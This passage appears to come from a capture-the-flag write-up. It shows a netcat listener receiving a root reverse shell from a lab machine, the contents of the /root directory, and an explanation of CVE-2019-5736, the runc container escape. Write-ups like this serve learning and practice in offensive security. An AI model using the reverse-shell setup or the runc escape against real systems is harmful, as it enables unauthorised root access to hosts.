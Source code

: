 
Meanwhile on our local machine...
```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.150] from (UNKNOWN) [10.10.10.230] 50662
sh: 0: can't access tty; job control turned off
# whoami
root
```
The exploit worked and we have now a **root** shell on the victim machine.


The flag is waiting for us under the `/root/` directory
```bash
# ls /root/
cleanup.sh
docker-runc
reset.sh
root.txt
start.sh
# 
```

### A quick look at the vulnerability: CVE-2019-5736
CVE description by MITRE:

*"runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe. "*


The **runC** is a container runtime. It contains all the code used to interact with the  system features related to the container.  
The vulnerability had a big impact given the wide diffusion of containers using runC.

Very interesting read if you want to learn more about the vulnerability and the exploit:
https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/




